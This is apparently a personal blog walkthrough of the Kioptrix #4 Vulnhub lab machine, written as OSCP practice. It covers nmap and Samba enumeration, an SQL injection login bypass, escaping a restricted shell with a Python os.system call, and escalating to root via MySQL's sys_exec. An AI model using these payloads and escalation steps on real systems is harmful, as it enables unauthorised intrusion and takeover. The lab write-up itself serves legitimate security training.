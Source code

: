 ```yaml
---
title: "Kioptrix #4 Walkthrough"
author: alex
date: Fri 28 Jul 18:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-kioptrix-4-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.3**. Or Kioptrix #4. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthroughs: **[Kioptrix #1](/posts/kioptrix-1-walkthrough)**, **[Kioptrix #2](/posts/kioptrix-2-walkthrough)** and **[Kioptrix #3](/posts/kioptrix-3-walkthrough)**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Gobuster

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.40    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.40
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.40
Host is up (0.00049s latency).
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)

PORT    STATE SERVICE     VERSION

22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)

80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open              Samba smbd 3.0.28a (workgroup: WORKGROUP)

MAC Address: 08:00:27:B4:0C:E8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.100 days (since Tue Feb  8 19:33:43 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=205 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h59m58s, deviation: 2h49m42s, median: 1h59m58s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2023-06-20T18:58:17-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX4<00>        Flags: <unique><active>
|   KIOPTRIX4<03>        Flags: <unique><active>
|   KIOPTRIX4<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|_  WORKGROUP<00>        Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Let's open the browser and search for http://192.168.1.40. We find a login page, let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.40 -t 10`. And the results show there's a directory named *john* and another named *robert*: `http://192.168.1.40/john/` & `http://192.168.1.40/robert/`.

![Directories](/kioptrix-gobuster.png)

- **Port 139/445:** Our lovely and insecure Samba ports. We are going to further enumerate Samba with Nmap: `sudo nmap --script smb-enum-users -v 192.168.1.40`.

![Samba Users](/kioptrix-smb-users.png)

Now we have some users to try to log in. Back to the login page, let's try some **SQLi**. Starting with *john* as username and the legendary `' OR '1'='1'` as the password.

![Member Page](/logged-in.png)

Yay, We have a password! Let's try to log in with SSH: 

```bash
sudo ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-rsa -c aes128-cbc john@192.168.1.40
```

And now we're in! As we can see. we don't have a full working shell, it just allows us to use a few commands and stay in `/home/john`, otherwise we would be kicked out. Now we should scape this limited shell. Thanks to the `echo` command we can log other commands into the system bypassing the restriction: 

```bash
echo os.system('/bin/bash')
```

Ok, now we have a full shell. First things first, let's check if we can run **sudo** and what is already running as **root**. Running `sudo -l` we make sure that we cannot run **sudo**. Now let's check the processes that are running as root: `ps -elf | grep 'root'`. Now we see that **MySQL** is running as **root**.

Let's head to `/var/www` and `cat` the `checklogin.php` to see if any credentials are hardcoded. And yes! Now we can access the database with the credentials with `root` as user and no password: `mysql -h localhost -u root -p`.

Now we can see what databases we have: `show databases;`. And as **MySQL** is running as root and we have root access to it, what we can do is to try to add *john* to the *admin* group: 

```sql
select sys_exec('usermod -a -G admin john')
```

To check if it worked, exit MySQL and run `sudo su`. When prompted for john's password use *MyNameIsJohn* and... voilà! We have **root** access!
